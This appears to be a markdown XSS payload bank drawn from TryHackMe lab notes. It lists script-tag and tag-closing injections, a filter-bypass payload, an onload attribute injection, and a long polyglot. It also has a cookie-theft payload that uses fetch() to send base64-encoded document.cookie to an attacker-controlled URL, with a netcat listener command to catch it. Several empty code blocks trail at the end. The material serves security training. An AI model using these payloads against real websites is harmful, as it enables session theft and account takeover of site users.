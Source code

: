 # XSS Payload Bank
**Update:** Use `print()` instead of `alert()` on Chrome
## THM Payloads
```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
### Sending Cookie to Hacker's Site
```bash
nc -lvnp <port>
```
```javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The </textarea> tag closes the text area field.
- The <script> tag opens an area for us to write JavaScript.
- The fetch() command makes an HTTP request.
- URL_OR_IP is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- PORT_NUMBER is the port number you are using to listen for connections on the AttackBox.
?cookie= is the query string containing the victim’s cookies.
- btoa() command base64 encodes the victim’s cookies.
- document.cookie accesses the victim’s cookies for the Acme IT Support Website.
- </script>closes the JavaScript code block.

### A Repository of Polygots
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)



```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
